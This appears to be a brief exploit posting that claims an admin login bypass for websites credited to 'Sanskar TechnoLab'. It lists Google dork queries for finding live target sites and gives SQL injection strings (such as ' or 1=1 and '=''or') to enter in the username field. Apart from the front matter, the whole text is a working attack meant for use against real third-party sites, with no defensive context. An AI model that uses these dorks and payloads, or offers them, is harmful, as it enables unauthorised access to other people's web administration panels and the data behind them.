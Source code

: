```yaml
---
title: 'Developed by: Sanskar TechnoLab Vulnrability Bypass admin Login'
date: 2019-09-25T11:55:00+01:00
draft: false
---
```


  
\======================================  
  
\[+\]Exploit Title : Developed by: Sanskar TechnoLab Pvt. Ltd Bypass admin Login  
\[+\]Athor : Jenderal92  
\[+\]Google Dork :  
inurl:php?id= "Developed by: Sanskar TechnoLab"  
intext:"Developed by: Sanskar TechnoLab "  
(Use Your brain :v)  
\======================================  
\[++\] Proof Of Concept :  
Bypass Admin Page Login  
username : '=''or' / admin / ' or 1=1